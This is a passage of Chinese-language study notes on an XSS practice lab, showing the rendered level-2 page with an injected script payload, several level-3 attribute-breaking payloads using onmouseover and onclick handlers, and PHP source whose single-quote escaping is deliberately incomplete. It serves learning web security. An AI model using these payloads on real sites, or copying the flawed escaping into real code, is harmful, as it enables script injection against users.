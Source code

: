 页面代码

```html
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level3.php?writing=wait"; 
}
</script>
<title>欢迎来到level2</title>
</head>
<body>
<h1 align=center>欢迎来到level2</h1>
<h2 align=center>没有找到和&quot;&gt;&lt;script&gt;alert(/redqx/)&lt;/script&gt;相关的结果.</h2><center>
<form action=level2.php method=GET>
<input name=keyword  value=""><script>alert(/redqx/)</script>">
<input type=submit name=submit value="搜索"/>
</form>
</center><center><img src=level2.png></center>
<h3 align=center>payload的长度:33</h3></body>
</html>
```

# level3

标签闭合+ 事件

```php
' onmouseover='alert(1)'><'
或者
' onmouseover='alert(1)
或者
'onclick='window.alert()
```

![Untitled](xss-lab%2032cbdf3646914878b34975977f2cc833/Untitled%202.png)

源码摘要

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>	
<input type=submit name=submit value=搜索 />
</form>
</center>";
?>
```
